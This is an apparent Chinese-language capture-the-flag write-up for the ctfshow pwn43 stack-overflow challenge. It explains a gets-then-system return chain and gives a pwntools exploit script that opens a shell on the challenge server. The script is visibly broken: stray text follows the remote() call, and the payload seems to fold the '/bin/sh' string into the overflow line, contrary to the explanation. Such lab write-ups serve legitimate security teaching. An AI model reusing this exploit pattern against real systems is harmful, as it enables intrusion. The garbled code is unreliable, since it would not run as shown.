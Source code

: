 

gets函数plt：

![image-20241101162426508](../_media/image-20241101162426508.png)

想法是这样的，gets输入s溢出后返回到gets，利用gets往buf2里面写入gets读取的buf2地址，再写入待会要送进去的/bin/sh的地址

参考wp：[CTFshow-PWN-栈溢出（pwn43）_ctfshow pwn43-CSDN博客](https://blog.csdn.net/Myon5/article/details/138167444)

一开始我也不是很能理解这边，看了wp，直接解析吧

前面一部分都知道，填充无用数据覆盖函数的返回地址

然后现在我们可以到达任意一步，但是考虑到程序里面有system，没有/bin/sh等字样，所以需要传进去/bin/sh

这时候就确定gets函数可以被利用，所以我们返回到gets函数的地址，这时候就执行gets函数了。

然后后面+sys函数的地址，由于调用的时候数据是压入栈中的，所以等gets函数执行完，就会执行sys函数了



后面传进去的分别是gets函数和system函数的参数

第一个参数是gets函数读取的数据，也就是待会我们要写buf2的地址，传到这里来

第二个就是待会字符串的地址，待会gets函数执行完之后，system函数就会执行这个地址上的参数



然后就是压入字符串 '/bin/sh'



最终exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28176

p = remote(ip,port)ruhe

gets_func = 0x8048420
buf2_addr = 0x804B060
sysm_addr = 0x8048450

payload = b'a'* (0x6C + 0x04) + p32(gets_func) + p32(sysm_addr) + p32(buf2_addr) + p32(buf2_addr) + b'/bin/sh'

p.sendline(payload)

p.interactive()
```
